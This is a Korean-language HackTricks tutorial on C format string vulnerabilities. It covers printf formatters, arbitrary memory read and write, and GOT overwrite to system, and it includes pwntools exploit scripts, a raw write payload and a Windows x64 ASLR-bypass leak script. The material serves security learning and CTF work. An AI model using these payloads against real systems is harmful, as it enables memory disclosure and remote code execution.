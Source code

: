 # Format Strings

{{#include ../../banners/hacktricks-training.md}}


## 기본 정보

C에서 **`printf`**는 문자열을 **출력**하는 데 사용되는 함수입니다. 이 함수가 기대하는 **첫 번째 파라미터**는 **포맷터가 포함된 원시 텍스트**입니다. 이어서 전달되는 **파라미터들**은 원시 텍스트의 포맷터를 **대체할 값들**입니다.

다른 취약한 함수로는 **`sprintf()`**와 **`fprintf()`**가 있습니다.

이 취약점은 이 함수의 **첫 번째 인자로 공격자 텍스트가 사용될 때** 발생합니다. 공격자는 **printf format string** 기능을 악용해 특수한 입력을 만들어 임의의 주소에서 데이터를 읽고 쓸 수 있게(읽기/쓰기 가능) 되며, 이를 통해 **임의의 코드를 실행**할 수 있습니다.

#### 포맷터:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**예시:**

- 취약한 예:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
- 일반 사용:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
- 인자 누락 시:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
- fprintf 취약점:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **포인터에 접근하기**

형식 **`%<n>$x`**, 여기서 `n`은 숫자이며, printf에 스택에서 n번째 매개변수를 선택하도록 지시할 수 있습니다. 따라서 printf로 스택의 네 번째 매개변수를 읽고 싶다면 다음과 같이 할 수 있습니다:
```c
printf("%x %x %x %x")
```
그리고 첫 번째부터 네 번째 파라미터를 읽게 됩니다.

또는 다음과 같이 할 수 있습니다:
```c
printf("%4$x")
```
그리고 바로 네 번째를 읽습니다.

Notice that the attacker controls the `printf` **매개변수를 제어한다는 점, 즉** his input is going to be in the stack when `printf` is called, which means that he could write specific memory addresses in the stack.

> [!CAUTION]
> 이 입력을 제어하는 공격자는 **스택에 임의의 주소를 추가하고 `printf`로 그 주소들에 접근하게 할 수 있다**. 다음 섹션에서 이 동작을 활용하는 방법을 설명한다.

## **Arbitrary Read**

It's possible to use the formatter **`%n$s`** to make **`printf`** get the **주소** situated in the **n 위치**, following it and **문자열인 것처럼 출력하게 한다** (print until a 0x00 is found). So if the base address of the binary is **`0x8048000`**, and we know that the user input starts in the 4th position in the stack, it's possible to print the starting of the binary with:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
> [!CAUTION]
> 입력의 시작에 주소 0x8048000을 넣을 수 없다는 점에 유의하세요. 문자열이 해당 주소 끝의 0x00에서 잘리기 때문입니다.

### 오프셋 찾기

입력에 대한 오프셋을 찾으려면 4 또는 8 바이트 (`0x41414141`)를 보낸 다음 **`%1$x`**를 붙이고 `A's`가 나올 때까지 값을 **증가**시키면 됩니다.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### 유용성

Arbitrary reads는 다음과 같이 유용합니다:

- **Dump** the **binary** from memory
- **Access specific parts of memory where sensitive** **info** is stored (like canaries, encryption keys or custom passwords like in this [**CTF challenge**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbitrary Write**

포매터 **`%<num>$n`**은 스택의 <num> 파라미터가 가리키는 주소에 지금까지 출력된 바이트 수를 씁니다. 공격자가 printf로 원하는 만큼 많은 char를 쓸 수 있다면, **`%<num>$n`**을 이용해 임의의 주소에 임의의 숫자를 쓸 수 있게 됩니다.

다행히도 숫자 9999를 쓰기 위해 입력에 "A"를 9999개 추가할 필요는 없습니다. 대신 포매터 **`%.<num-write>%<num>$n`**을 사용하면 **`<num-write>`** 숫자를 **`num` 위치가 가리키는 주소에** 쓸 수 있습니다.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
하지만 보통 `0x08049724` (한 번에 쓰기에는 매우 큰 수) 같은 주소를 쓰기 위해서는, **`$n` 대신 `$hn`이 사용된다**. 이렇게 하면 **오직 2 Bytes만** 쓸 수 있다. 따라서 이 작업은 주소의 상위 2B와 하위 2B에 대해 각각 두 번 수행된다.

따라서, 이 취약점은 **임의의 주소에 어떤 값이든 쓸 수 있다 (arbitrary write).**

이 예제에서 목표는 나중에 호출될 **GOT** 테이블에 있는 **함수**의 **주소**를 **덮어쓰는 것**이다. 물론 이는 다른 arbitrary write to exec 기법을 악용할 수도 있다:


{{#ref}}
../arbitrary-write-2-exec/
{{#endref}}

우리는 **사용자**로부터 **인자를 받는** **함수**를 **덮어써서** 그 함수를 **`system`** **함수**로 가리키게 만들 것이다.\
앞서 언급했듯 주소를 쓰기 위해서는 보통 2단계가 필요하다: 먼저 주소의 2Bytes를 쓰고 그 다음 나머지 2Bytes를 쓴다. 이를 위해 **`$hn`**을 사용한다.

- **HOB**는 주소의 상위 2Bytes를 가리킨다
- **LOB**는 주소의 하위 2Bytes를 가리킨다

그 다음, format string의 동작 방식 때문에 \[HOB, LOB] 중 더 작은 값을 **먼저 써야** 하고 그 다음에 나머지를 써야 한다.

만약 HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

만약 HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB_shellcode-8 NºParam_dir_HOB LOB_shell-HOB_shell NºParam_dir_LOB
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
### Pwntools 템플릿

이러한 유형의 취약점에 대한 exploit을 준비하기 위한 **템플릿**은 다음에서 찾을 수 있습니다:


{{#ref}}
format-strings-template.md
{{#endref}}

또는 [**here**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite)의 기본 예제:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

format string 취약점의 write 동작을 악용하여 **write in addresses of the stack**를 수행하고 **buffer overflow** 유형의 취약점을 악용할 수 있다.


## Windows x64: Format-string leak to bypass ASLR (no varargs)

Windows x64에서는 첫 네 개의 정수/포인터 파라미터가 레지스터(RCX, RDX, R8, R9)를 통해 전달된다. 많은 버그가 있는 호출 지점에서 공격자가 제어하는 문자열이 format argument로 사용되지만 variadic arguments가 제공되지 않는 경우가 많다. 예를 들어:
```c
// keyData is fully controlled by the client
// _snprintf(dst, len, fmt, ...)
_snprintf(keyStringBuffer, 0xff2, (char*)keyData);
```
varargs가 전달되지 않기 때문에 "%p", "%x", "%s" 같은 변환은 CRT가 적절한 레지스터에서 다음 가변 인수를 읽도록 만듭니다. Microsoft x64 calling convention에서는 "%p"에 대한 첫 번째 읽기가 R9에서 이루어집니다. 호출 지점에서 R9에 있는 어떤 일시적 값이든 출력됩니다. 실제로 이는 종종 안정적인 in-module pointer를 leak하는데(예: 주변 코드에 의해 이전에 R9에 배치된 로컬/글로벌 객체에 대한 포인터 또는 callee-saved 값), 이는 module base를 복구하고 ASLR을 무력화하는 데 사용될 수 있습니다.

Practical workflow:

- 공격자가 제어하는 문자열의 맨 앞에 "%p " 같은 무해한 포맷을 주입하여 첫 번째 변환이 필터링 전에 실행되도록 합니다.
- leaked pointer를 캡처하고, 해당 객체의 모듈 내 정적 오프셋을 식별한 다음(심볼이나 로컬 복사본으로 한 번 리버싱하여) image base를 `leak - known_offset`으로 복원합니다.
- 그 base를 재사용하여 ROP gadgets 및 IAT entries의 절대 주소를 원격으로 계산합니다.

Example (abbreviated python):
```python
from pwn import remote

# Send an input that the vulnerable code will pass as the "format"
fmt = b"%p " + b"-AAAAA-BBB-CCCC-0252-"  # leading %p leaks R9
io = remote(HOST, 4141)
# ... drive protocol to reach the vulnerable snprintf ...
leaked = int(io.recvline().split()[2], 16)   # e.g. 0x7ff6693d0660
base   = leaked - 0x20660                     # module base = leak - offset
print(hex(leaked), hex(base))
```
노트:
- 빼야 할 정확한 offset은 로컬 reversing 중에 한 번 찾은 뒤 재사용한다 (same binary/version).
- "%p"가 첫 시도에서 유효한 포인터를 출력하지 않으면, 다른 지정자("%llx", "%s")나 여러 변환("%p %p %p")을 시도해 다른 argument registers/stack를 샘플링해보자.
- 이 패턴은 Windows x64 calling convention과 format 문자열이 요청할 때 존재하지 않는 varargs를 registers에서 가져오는 printf-family 구현에 특화되어 있다.

이 기법은 ASLR이 적용되고 명백한 memory disclosure primitives가 없는 Windows 서비스에서 ROP를 부트스트랩하는 데 매우 유용하다.

## Other Examples & References

- [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
- [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
- [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
- [https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
- 32 bit, no relro, no canary, nx, no pie, format strings를 사용해 stack에서 flag를 leak하는 기본적인 예 (execution flow를 변경할 필요 없음)
- [https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
- 32 bit, relro, no canary, nx, no pie, format string으로 fflush의 주소를 win 함수(ret2win)로 덮어쓰기
- [https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
- 32 bit, relro, no canary, nx, no pie, main 내부의 `.fini_array`에 주소를 쓰게 해 흐름을 한 번 더 루프시키고 GOT 테이블의 `strlen`을 `system`으로 덮어쓴다. 흐름이 다시 main으로 돌아오면 `strlen`이 사용자 입력과 함께 실행되고 `system`을 가리키므로 전달된 명령이 실행된다.

## References

- [HTB Reaper: Format-string leak + stack BOF → VirtualAlloc ROP (RCE)](https://0xdf.gitlab.io/2025/08/26/htb-reaper.html)
- [x64 calling convention (MSVC)](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention)

{{#include ../../banners/hacktricks-training.md}}
